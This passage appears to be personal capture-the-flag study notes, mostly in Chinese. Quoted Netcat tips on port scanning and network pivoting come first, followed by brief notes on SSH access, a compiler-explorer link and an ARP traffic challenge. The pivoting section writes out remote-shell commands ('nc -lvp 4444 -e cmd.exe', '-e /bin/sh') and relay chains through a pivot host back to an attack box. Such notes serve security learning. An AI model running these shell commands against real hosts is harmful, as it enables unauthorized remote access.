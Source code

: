 > - Piping Netcat output to files (direct both stderr and stdout into the file)
>
>   `nc -vv -z localhost 1-100 2>&1 | grep open > output.txt` 
>
> - Windows network pivoting with Netcat
>
>   - Kali Linux console Input: `nc -lvp 3333`
>
>     Kali Linux console Ouput: `nc -lvp 4444`
>
>     Windows host 2: `nc -lvp 4444 -e cmd.exe`
>
>     Windows host 1: `nc.exe 10.11.1.16 3333 | nc.exe 10.11.1.198 4444 | nc.exe 10.11.1.16 2222` 
>
>   ![img](https://www.hackingtutorials.org/wp-content/uploads/2017/03/4-Windows-netcat-network-pivoting-example.jpg)
>
>   - -e 可用时
>
>     Kali Linux attack box: `nc -lvp 4444`
>     Windows host 2: `nc -lvp 4444 -e cmd.exe`
>     Windows host 1 – pivot point: `nc -v 10.11.1.16 4444 -c ”nc -v 10.11.1.198 4444”`
>
> - Linux network pivoting with Netcat
>
>   attack box: `nc -lvp 4444`
>   target host: `nc -lvp 4444 -e /bin/sh`
>   pivot point: `nc -v 10.11.1.16 4444 -e ”nc -v 10.11.1.96 4444”` 

### sshkey 

想起上次比赛只有ssh登录不来的恐惧。嘤

作死地touch了个.ssh，这是文件啊！目录是mkdir啊！摔。而且它寄几会建的啊！！！

然后一直连吖连始终是host key verification failed

解决办法ssh -o StrictHostKeyChecking=no user@something.example.com uptime然后发现是要用其他的主机连它那个shell。。。但是又米有公网ip又不能复制公钥就很僵x

发现一个超级机智的方法！有道翻译选中取词就可以去翻译的界面复制了！哇哈哈哈哈x

然后连不上？？？ip找不到？？？窝惊了ifconfig么不行ip addr么根本联不通？喵喵喵？？？

后来的pico同样的一题就可以从shell里直接连emmmmm

### asmtosie 0

[compiler explorer](https://godbolt.org/) 

### arparparp

打开流量包发现全是ARP和udp，然后传的数据都是各种len=1的，拼起来没看粗啥，发现mac地址不一样，有多个不同的MAC地址都声称ip地址192.168.2.10试图向192.168.2.9发送数据。找脚本~
